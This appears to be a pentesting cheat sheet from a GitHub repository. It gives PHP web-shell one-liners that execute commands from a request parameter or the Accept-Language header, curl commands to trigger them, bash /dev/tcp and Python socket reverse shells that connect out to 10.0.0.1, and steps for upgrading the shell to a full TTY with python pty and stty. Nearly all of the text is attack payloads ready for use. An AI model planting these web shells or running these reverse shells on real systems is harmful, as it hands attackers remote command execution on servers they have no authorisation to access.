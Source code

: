 # simple shell using get
    <?php system($_REQUEST['c']); ?>
then
    `curl http://example.com?c=whoami`

# simple shell using http header
    <?php passthru(getenv('HTTP_ACCEPT_LANGUAGE')); ?>
then `curl http://example.com -H "Accept-Language: command"`

Make sure commands are URL encoded

# Reverse shell commands
These commands can be passed as the payload once you ahve a webshell to create a more persistent shell. Make sure to create a corresponding listening service using netcat to catch the shell.

Syntax Note: bash -c '{{ shell command }}'

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'
## Python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Upgrade your shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

## Use Python to spawn a psuedo-terminal
use Python to spawn a pty. The pty module let’s you spawn a psuedo-terminal that can fool commands like su into thinking they are being executed in a proper terminal. To upgrade a dumb shell, simply run the following command:

    python -c 'import pty; pty.spawn("/bin/bash")'

## Upgrading netcat shell using stty
1. First, follow the same technique as in Method 1 and use Python to spawn a PTY. Once bash is running in the PTY, background the shell with `Ctrl-Z`
2. While the shell is in the background, now examine the current terminal and STTY info so we can force the connected shell to match it \
![get_terminal_settings.png](get_terminal_settings.png)
The information needed is the TERM type `(“xterm-256color”)` and the size of the current TTY `(“rows 38; columns 116”)`
3. With the shell still backgrounded, now set the current STTY to type raw and tell it to echo the input characters with the following command: \
`stty raw -echo`
4. Next foreground the shell with `fg`. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with `reset`.
5. After the reset the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)
```
export SHELL=bash
export TERM={{ term setting from step 2}}
stty rows {{ rows }} columns {{ columns }}
```